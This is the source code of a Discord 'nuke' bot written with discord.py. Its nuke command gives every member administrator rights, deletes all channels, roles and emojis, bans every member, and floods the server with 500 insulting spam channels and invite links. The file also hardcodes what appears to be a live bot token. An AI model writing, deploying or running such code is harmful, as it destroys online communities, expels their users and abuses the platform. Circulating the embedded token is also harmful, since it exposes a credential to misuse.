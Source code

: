 import discord
from discord.ext import commands
import random
from discord import Permissions
from colorama import Fore, Style
import asyncio

token = "ODM2OTU2NjU3MzA5MDU3MDU2.YIlioQ._gfDS59pBAifTcwmvS4YObCyk04"

SPAM_CHANNEL = [
    " A͓̽g͓̽e͓̽n͓̽t͓̽ k͓̽a͓̽n͓̽e͓̽k͓̽i#0248 je Kralj", "popusimi",
    "A͓̽g͓̽e͓̽n͓̽t͓̽ k͓̽a͓̽n͓̽e͓̽k͓̽i#0248", "oops Beamed",
    "A͓̽g͓̽e͓̽n͓̽t͓̽ k͓̽a͓̽n͓̽e͓̽k͓̽i#0248 Beamed You",
    "owner da nam ga popusi", "Get beamed clowns",
    "Beamed by A͓̽g͓̽e͓̽n͓̽t͓̽ k͓̽a͓̽n͓̽e͓̽k͓̽i#0248", "oops got nuked",
    "ode server", "beamed by A͓̽g͓̽e͓̽n͓̽t͓̽ k͓̽a͓̽n͓̽e͓̽k͓̽i#0248",
    "sa ima buraz", "kinda got beamed by A͓̽g͓̽e͓̽n͓̽t͓̽ k͓̽a͓̽n͓̽e͓̽k͓̽i#0248"
]
SPAM_MESSAGE = ["@everyone svi brzzzoo https://discord.gg/eeZVGPNq"]

client = commands.Bot(command_prefix="*")


@client.event
async def on_ready():
    print(''' 
   
███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗
████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝ 
██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░ 
██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░ 
██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░  
╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░ 
 ''')
    await client.change_presence(activity=discord.Game(
        name="Direct By A͓̽g͓̽e͓̽n͓̽t͓̽ k͓̽a͓̽n͓̽e͓̽k͓̽i#0248"))


@client.command()
@commands.is_owner()
async def stop(ctx):
    await ctx.bot.logout()
    print(Fore.GREEN + f"{client.user.name} has logged out successfully." +
          Fore.RESET)


@client.command()
async def nuke(ctx):
    await ctx.message.delete()
    guild = ctx.guild
    try:
        role = discord.utils.get(guild.roles, name="@everyone")
        await role.edit(permissions=Permissions.all())
        print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)
    except:
        print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)
    for channel in guild.channels:
        try:
            await channel.delete()
            print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)
        except:
            print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)
    for member in guild.members:
        try:
            await member.ban()
            print(Fore.MAGENTA +
                  f"{member.name}#{member.discriminator} Was banned" +
                  Fore.RESET)
        except:
            print(
                Fore.GREEN +
                f"{member.name}#{member.discriminator} Was unable to be banned."
                + Fore.RESET)
    for role in guild.roles:
        try:
            await role.delete()
            print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)
        except:
            print(Fore.GREEN + f"{role.name} Has not been deleted" +
                  Fore.RESET)
    for emoji in list(ctx.guild.emojis):
        try:
            await emoji.delete()
            print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)
        except:
            print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)
    banned_users = await guild.bans()
    for ban_entry in banned_users:
        user = ban_entry.user
        try:
            await user.unban("A͓̽g͓̽e͓̽n͓̽t͓̽ k͓̽a͓̽n͓̽e͓̽k͓̽i#0248")
            print(
                Fore.MAGENTA +
                f"{user.name}#{user.discriminator} Was successfully unbanned."
                + Fore.RESET)
        except:
            print(Fore.GREEN +
                  f"{user.name}#{user.discriminator} Was not unbanned." +
                  Fore.RESET)
    await guild.create_text_channel("vi ste carsijske kurave")
    for channel in guild.text_channels:
        link = await channel.create_invite(max_age=0, max_uses=0)
        print(f"New Invite: {link}")
    amount = 500
    for i in range(amount):
        await guild.create_text_channel(random.choice(SPAM_CHANNEL))
    print(f"nuked {guild.name} Successfully.")
    return
